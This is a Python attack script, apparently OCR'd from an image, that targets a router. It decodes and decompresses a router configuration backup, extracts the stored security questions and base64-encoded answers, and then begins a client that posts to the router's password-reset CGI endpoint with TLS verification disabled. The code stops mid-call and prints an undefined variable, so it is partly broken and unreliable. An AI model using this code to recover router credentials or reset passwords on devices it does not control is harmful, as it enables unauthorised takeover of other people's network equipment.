 ```python

from os import system
from base64 import b64decode as b64d
system("base64 -d router_config.cfg > lmao")
system("./selfmake_decompressor lmao")

f = open("./decompressbuffer", "rb")
buf = f.read()

idx1 = buf.index(b"<SecurityAnswer1>")
idx2 = buf.index(b"</SecurityAnswer1>")
tmp1 = buf[idx1 + len("<SecurityAnswer1>") : idx2].decode()
idx1 = buf.index(b"<SecurityAnswer2>")
idx2 = buf.index(b"</SecurityAnswer2>")

tmp2 = buf[idx1 + len("<SecurityAnswer2>") : idx2].decode()


# print(tmp1)
# print(tmp2)
ans1 = b64d(tmp1)[:-1].decode()


ans2 = b64d(tmp2)[:-1].decode()


f.close()
idx1 = buf.index(b"<SecurityQuestion1>")
idx2 = buf.index(b"</SecurityQuestion1>")

quesidx1 = int(buf[idx1 + len(b"<SecurityQuestion1>") : idx2].decode())

idx1 = buf.index(b"<SecurityQuestion2>")
idx2 = buf.index(b"</SecurityQuestion2>")

quesidx2 = int(buf[idx1 + len(b"<SecurityQuestion2>") : idx2].decode())

print(f"Router serial: {serial_number}")
print(f"Question index1 : {quesidx1} - Answer 1: {ans1}")
print(f"Question index2 : {quesidx2} - Answer 2: {ans2}")


import requests
import base64

class MinimalRouterReset:
    def __init__(self, base_url=""):
        self.base_url = base_url
        requests.packages.urllib3.disable_warnings()
        
    def _send_raw_json(self, endpoint, payload):
        """Send only the raw JSON payload with no extra headers"""
        response = requests.post(
            f"{self.base_url}{endpoint}",json=payload,
            verify=False
        )
        return response.json()

    def check_serial(self, serial_number):
        """Step 1: Serial number check (raw JSON only)"""
        return self._send_raw_json(
            "/pwd_reset/reset_pwd.cgi",
            {"function": "checkSN", "data": {"serialNumber": serial_number}}
```